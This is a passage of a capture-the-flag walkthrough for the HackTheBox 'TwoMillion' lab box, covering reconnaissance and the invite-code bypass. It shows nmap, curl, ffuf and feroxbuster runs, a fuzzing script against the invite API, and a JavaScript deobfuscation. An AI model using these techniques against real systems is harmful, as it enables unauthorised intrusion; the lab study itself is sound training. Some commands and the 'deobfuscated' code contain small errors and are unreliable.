## About TwoMillion

TwoMillion is an Easy difficulty Linux box that was released to celebrate reaching 2 million users on HackTheBox. The box features an old version of the HackTheBox platform that includes the old hackable invite code. After hacking the invite code an account can be created on the platform. The account can be used to enumerate various API endpoints, one of which can be used to elevate the user to an Administrator. With administrative access the user can perform a command injection in the admin VPN generation endpoint thus gaining a system shell. An .env file is found to contain database credentials and owed to password re-use the attackers can login as user admin on the box. The system kernel is found to be outdated and CVE-2023-0386 can be used to gain a root shell. 

- **Categories**
    - Top Level categories for TwoMillion
        - Web Application / Linux

- **Area of Interest**
    - Learn about the technology and tools that can be found in TwoMillion
        - Injections

- **Vulnerabilities**
    - Learn about the vulnerabilities and systems that can be found in TwoMillion
        - Remote Code
        - Execution OS 
        - Command Injection 
        - Misconfiguration 
        - Command Execution
- **Languages**
    - Learn about the languages required to play TwoMillion
        - PHP JavaScript


# Web Application Enumeration
"In the beginning, let's just click around the front-end of the website since we still have no idea about clicking links and where they will redirect us."
<br>



<br>

"In the join navigation, it redirects to a different URL with the path 'invite.' There, we tried inputting random characters, and a pop-up appeared, indicating that the application is validating the inputted invite code against some backend logic or database. Later, let's try fuzzing it using ffuf and Caido to see the server-side backend validation process."

<br>




<br>

"In the login path, we tried inputting a default email and password, and we noticed unusual error messages like `User+not+found` in a URL-encoded format. When query parameters like this are present, there are many potential vulnerabilities, such as XSS, SQL injection, CSRF, parameter pollution, information disclosure, and more."

<br>




## Fingerprinting Web Servers
"In the Nmap result, we found only two open ports: port 80 and port 22, with the server running Nginx. Initially, I thought there might be an XXE vulnerability because of the HTTP trace information on port 80, specifically the issue with XML parsing of `/evox/about`, which is quite intriguing."
```bash
$ nmap -sC -sV -Pn -vv $(nmap --min-rate=10000 -T4 -p- 10.10.11.221 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' '.' | sed 's/,$//') 10.10.11.221 -oN tcp.txt

Nmap scan report for 2million.htb (10.10.11.221)
Host is up, received user-set (0.31s latency).

Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 20E95ACF205EBFDCB6D634B7440B0CEE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Hack The Box :: Penetration Testing Labs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
# 2 IP addresses (2 hosts up) scanned in 238.68 seconds
```

## Inspecting HTTP Response Headers and Sitemaps 
```bash
$ curl -I http://10.10.11.221:80
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Mon, 23 Dec 2024 05:19:18 GMT
Content-Type: text/html
Content-Length: 162
Connection: keep-alive
Location: http://2million.htb/
```
```bash
$ curl http://2million.htb/robots.txt -v   
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
* using HTTP/1.x
> GET /robots.txt HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.10.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 301 Moved Permanently
< Server: nginx
< Date: Mon, 23 Dec 2024 05:53:06 GMT
< Content-Type: text/html
< Content-Length: 162
< Location: http://2million.htb/404
< Connection: keep-alive
< 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx</center>
</body>
</html>
* Connection #0 to host 2million.htb left intact
```
## Adding localhost 
```bash
$ echo "10.10.11.221 2million.htb" | tee -a /etc/hosts
```
```bash
$ ping -c 1 2million.htb

PING 2million.htb (10.10.11.221) 56(84) bytes of data.
64 bytes from 2million.htb (10.10.11.221): icmp_seq=1 ttl=63 time=40 ms
```
## Identify system using TTL values
The initial TTL values set by various operating systems are typically as follows

- **Linux**: 64
- **Windows**: 128
- **macOS/iOS**: 64
- **Unix-like systems**: 64
- **Cisco devices**: 255

When the observed TTL value is 63, it likely indicates that the initial TTL was 64, but the packet has traversed one hop. Since the TTL value observed is 63, the most probable operating system is a Linux-based system or a Unix-like system, assuming the packet passed through one router.

## Debugging Page Content
```bash
$ curl 2million.htb -v  >> index.html

* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.10.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Mon, 23 Dec 2024 05:39:35 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=l1cpafqv6frcdpn3gc8npo3rq6; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
<!DOCTYPE html>
<html lang="en">

<head>

    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <meta name="description" content="An online platform to test and advance your skills in penetration testing and cyber security. Join today and start training in our online labs." />
    <meta name="keywords" content="penetration testing, pen testing, penetration testing labs, pen testing labs, penetration testing training">
    <meta name="author" content="Hack The Box">

    <title>Hack The Box :: Penetration Testing Labs</title>
    <link rel="canonical" href="https://www.hackthebox.eu" />
    <link rel="icon" href="/images/favicon.png">
    <!-- Core CSS -->
    <link href="/css/htb-frontpage.css" rel="stylesheet">
</head>

<body id="page-top" class="index">
...
...
```
## Technology Stack Identification


## Directory and File Listings
```bash
$ feroxbuster -u http://2million.htb -w /usr/share/seclists/Discovery/Web-Content/big.txt --scan-dir-listings
                                                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://2million.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────

200     GET    http://2million.htb/images/favicon.png
200     GET    http://2million.htb/login
200     GET    http://2million.htb/invite
200     GET    http://2million.htb/images/logofull-tr-web.png
200     GET    http://2million.htb/images/logo-transparent.png
403     GET    http://2million.htb/css/
403     GET    http://2million.htb/js/
403     GET    http://2million.htb/images/
200     GET    http://2million.htb/js/htb-frontpage.min.js
200     GET    http://2million.htb/css/htb-frontpage.css
200     GET    http://2million.htb/
200     GET    http://2million.htb/js/htb-frontend.min.js
200     GET    http://2million.htb/css/htb-frontend.css
200     GET    http://2million.htb/404
401     GET    http://2million.htb/api
302     GET    http://2million.htb/home => http://2million.htb/
405     GET    http://2million.htb/api/v1/invite/verify
200     GET    http://2million.htb/register
200     GET    http://2million.htb/js/inviteapi.min.js
302     GET    http://2million.htb/logout => http://2million.htb/
405     GET    http://2million.htb/api/v1/user/login
405     GET    http://2million.htb/api/v1/user/register  
```
### HTTP Codes

- **200 (OK)**: Everything worked fine, and the server gave you what you asked for.  
- **403 (Forbidden)**: You’re not allowed to access this. You might need special permission.  
- **401 (Unauthorized)**: You need to log in or provide the correct credentials.  
- **302 (Found)**: You’re being sent to another page temporarily.  
- **405 (Method Not Allowed)**: The way you’re trying to access this (like using POST or GET) isn’t allowed.  


# Security Testing 
## Enumerating APIs



## Enumerating path
```bash
302     GET    http://2million.htb/home => http://2million.htb/
405     GET    http://2million.htb/api/v1/invite/verify
200     GET    http://2million.htb/register
200     GET    http://2million.htb/js/inviteapi.min.js
```
## JS Obfuscated 
"In the API enumeration, we found an obfuscated JavaScript file containing two functions: `makeInviteCode` and `verifyInviteCode`. After deobfuscating it, we discovered paths to files that we could fuzz. I created a `wordlists.txt` file and a fuzzing bash script to check those files. Through this process, we found a Base64-encoded value, which turned out to be the invite code."
```js
eval(function(p, a, c, k, e, d) {
	e = function(c) {
		return c.toString(36)
	};
	if (!''.replace(/^/, String)) {
		while (c--) {
			d[c.toString(a)] = k[c] || c.toString(a)
		}
		k = [function(e) {
			return d[e]
		}];
		e = function() {
			return '\\w+'
		};
		c = 1
	};
	while (c--) {
		if (k[c]) {
			p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])
		}
	}
	return p
}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}', 24, 24, 'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, {}))
```

## Deobfuscated

```js
function verifyInviteCode(code) {
    var formData = { "code": code };
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/d/e/n',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/d/e/k/l/m',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```
## Checking Path headers
```bash
$ curl -I http://2million.htb/api/v1/invite/verify 
HTTP/1.1 405 Method Not Allowed
Server: nginx
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Set-Cookie: PHPSESSID=6p4770h8socs4g8sokj0nsbfcl; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

$ curl -X POST http://2million.htb/api/v1/invite/verify  
{"0":400,"success":0,"error":{"message":"Missing parameter: code"}}


$ curl -s -X POST http://2million.htb/api/v1/invite/verify  | jq
{
  "0": 400,
  "success": 0,
  "error": {
    "message": "Missing parameter: code"
  }
}
        
```
## Wordlist and path
```bash
'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'
``` 

> lists.txt
```bash
...
...
invite
error
data
var
verifyInviteCode
makeInviteCode
verify
how
to
generate
...
...
```
```bash
$ cat lists.txt | sort >> wordlists.txt  
```
```bash
#!/bin/bash

url="http://2million.htb/api/v1/invite/"
headers=(
  -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"
  -H "X-Requested-With: XMLHttpRequest"
  -H "Accept: application/json, text/javascript, */*; q=0.01"
  -H "Referer: http://2million.htb/invite"
  -H "Origin: http://2million.htb"
  -H "Accept-Encoding: gzip, deflate"
  -H "Accept-Language: en-US,en;q=0.9"
)
while IFS= read -r param; do
  full_url="${url}${param}"
  response=$(curl -s -X POST "${headers[@]}" "$full_url" -d "code=$param")
  http_code=$(curl -s -o /dev/null -w "%{http_code}" -X POST "${headers[@]}" "$full_url" -d "code=$param")
  echo "Path: $param"
  echo "HTTP Code: $http_code"
  echo "Response:"
  
  if echo "$response" | jq . >/dev/null 2>&1; then
    echo "$response" | jq .
  else
    echo "$response"
  fi
  
  echo "-------------------------"
done < wordlist.txt
```
### Result output
```bash
$ ./fuzzer.sh
...
...
Path: function
HTTP Code: 301
Response:
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx</center>
</body>
</html>
-------------------------
Path: generate
HTTP Code: 200
Response:
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "V0VUWU8tWFc0RjgtMkdHVTItMlY1Mzk=",
    "format": "encoded"
  }
}
-------------------------
...
...
-------------------------
Path: verify
HTTP Code: 200
Response:
{
  "0": 400,
  "success": 0,
  "error": {
    "message": "Invite code is invalid!"
  }
}
-------------------------

```
```bash
$ curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate  -o - | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

```bash
$ echo "TlVFQzctTFpORTctMk1PTVAtODM4NVc=" | base64 -d                               
NUEC7-LZNE7-2MOMP-8385W  
```




## Vulnerability Identification
```bash
$ ffuf -u http://2million.htb/home/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt \
-H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate" \
-H "Connection: keep-alive" \
-H "Cookie: PHPSESSID=vr2g5a0h8mtpiuiak0u7sf5io4" \
-H "Upgrade-Insecure-Requests: 1" \
-H "Priority: u=0, i" \
-t 50 -mc all -c -fw 5             
```
```txt
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://2million.htb/home/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Connection: keep-alive
 :: Header           : Cookie: PHPSESSID=vr2g5a0h8mtpiuiak0u7sf5io4
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
 :: Follow redirects : false
